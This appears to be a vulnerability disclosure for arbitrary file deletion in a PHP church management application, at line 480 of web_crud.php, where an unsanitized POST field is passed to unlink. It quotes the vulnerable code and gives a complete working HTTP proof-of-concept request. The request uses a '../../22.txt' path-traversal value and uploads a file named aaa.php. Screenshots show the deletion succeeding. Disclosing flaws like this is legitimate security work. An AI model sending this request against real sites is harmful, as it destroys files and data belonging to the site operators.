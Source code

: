 ### Vulnerability file address

In line 480 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_team_img']);`,` $_POST['old_team_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['teamphoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["teamphoto"]["name"]);

            if (move_uploaded_file($_FILES["teamphoto"]["tmp_name"], $filepath)) {
                $img11 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['old_team_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 375

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_team_img"

../../22.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="teamphoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `22.txt` file in the `church/` directory

![image-20250505170403605](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051704645.png)



Then we execute the above poc to attack

![image-20250505170634642](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051706671.png)



Files are deleted after the attack is successful

![image-20250505170645586](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051706627.png)